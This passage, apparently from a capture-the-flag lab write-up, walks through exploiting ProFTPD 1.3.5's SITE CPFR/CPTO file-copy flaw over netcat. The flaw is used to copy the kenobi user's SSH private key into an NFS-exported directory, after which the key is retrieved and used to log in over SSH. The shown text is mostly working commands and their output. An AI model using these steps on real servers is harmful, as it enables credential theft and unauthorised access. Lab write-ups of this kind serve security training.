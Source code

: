 ```bash
drwxrwxrwt  6 root root  4096 Apr 17 19:31 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
```

We have now successfully created a network mount on our local machine. We can now use this directory to exfiltrate data using the ProFTPD exploit.

### Data Exfiltration

We can copy the kenobi user's `id_rsa` file to the `/var/tmp` directory. However, we must first connect to the FTP server to issue the `SITE CPFR` and `SITE CPTO` commands.

```bash
$ nc 10.10.166.119 21                                                                
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.166.119]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Now we just need to copy this from the network mount to our machine, change permissions, and use it to SSH to the machine.

```bash
$ cp /mnt/kenobiNFS/tmp/id_rsa .
$ ls                   
id_rsa  log.txt
$ chmod 600 id_rsa
$ ssh -i id_rsa kenobi@10.10.166.119 
The authenticity of host '10.10.166.119 (10.10.166.119)' can\'t be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:29: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.166.119' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
```

Now we have successfully logged in as the kenobi user. Next step is to escalate our privileges.
